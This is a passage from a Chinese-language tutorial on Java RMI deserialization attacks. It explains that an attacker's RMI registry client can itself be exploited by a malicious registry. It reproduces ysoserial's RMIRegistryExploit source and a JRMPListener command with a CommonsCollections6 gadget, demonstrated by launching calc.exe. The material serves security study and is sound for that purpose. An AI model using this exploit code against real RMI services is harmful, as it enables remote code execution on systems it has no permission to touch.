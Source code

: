 根据上文我们可以看到我们的代码中使用了`registry.bind`，其实际上调用的原生的`RegistryImpl_Stub`，会触发`UnicastRef#invoke->StreamRemoteCall#executeCall`导致反序列化，也就是说当我们服务端攻击注册中心时注册中心也可能会对我们进行攻击。
比如我们常用的ysoserial中的`RMIRegistryExploit`，其代码如下:
```java
 public static void main(final String[] args) throws Exception {
  final String host = args[0];
  final int port = Integer.parseInt(args[1]);
  final String command = args[3];
  Registry registry = LocateRegistry.getRegistry(host, port);
  final String className = CommonsCollections1.class.getPackage().getName() +  "." + args[2];
  final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(className);

  // test RMI registry connection and upgrade to SSL connection on fail
  try {
   registry.list();
  } catch(ConnectIOException ex) {
   registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
  }

  // ensure payload doesn't detonate during construction or deserialization
  exploit(registry, payloadClass, command);
 }

 public static void exploit(final Registry registry,
   final Class<? extends ObjectPayload> payloadClass,
   final String command) throws Exception {
  new ExecCheckingSecurityManager().callWrapped(new Callable<Void>(){public Void call() throws Exception {
   ObjectPayload payloadObj = payloadClass.newInstance();
            Object payload = payloadObj.getObject(command);
   String name = "pwned" + System.nanoTime();
   Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
   try {
    registry.bind(name, remote);
   } catch (Throwable e) {
    e.printStackTrace();
   }
   Utils.releasePayload(payloadObj, payload);
   return null;
  }});
 }
```
可以看到ysoserial也使用了`registry.list`和`registry.bind`，所以也存在漏洞。

#### 攻击流程
1. 使用ysoserial启动一个恶意的注册中心: `java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 calc.exe`
2. 稍微修改上面的服务端代码，将命令执行改为`notepad.exe`，然后运行
3. 服务端反序列化，弹出计算器(而非记事本)

